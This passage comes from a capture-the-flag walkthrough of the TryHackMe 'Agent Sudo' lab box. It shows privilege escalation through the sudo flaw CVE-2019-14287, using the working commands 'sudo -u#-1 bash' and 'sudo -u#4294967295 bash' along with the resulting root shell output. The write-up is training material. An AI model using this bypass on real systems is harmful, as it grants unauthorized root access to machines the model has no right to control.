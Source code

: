 Now let's try to get root. First, I check to see what our friend `----s` has `sudo` permissions to run:

```
----s@agent-sudo:~$ sudo -l
[sudo] password for ----s: 
Matching Defaults entries for ----s on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ----s may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Well, that is lucky. I immediately google this command and discover CVE-2019-14287. This exploit works due to some remarkably simple logic. The security policy applied – which allows `----s` to run `bash` as any user except root – is quite sensible. However, unfortunately, `sudo` faithfully interprets `#-1` after the `-u` user flag and, upon checking for user number `-1`,  will run as user `0`: `root`.

```    
----s@agent-sudo:~$ sudo -u#-1 bash
root@agent-sudo:~# whoami
root
```

This can also be done with `4294967295` instead of `-u`. h/t [WhiteSource](https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/)

```
----s@agent-sudo:~$ sudo -u#4294967295 bash
[sudo] password for ----s: 
root@agent-sudo:~# whoami
root
```

Pretty crazy! 

Now for the final spy message of the box:
```
root@agent-sudo:/# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
🎌root flag🎌

By,
-----l a.k.a Agent R

```
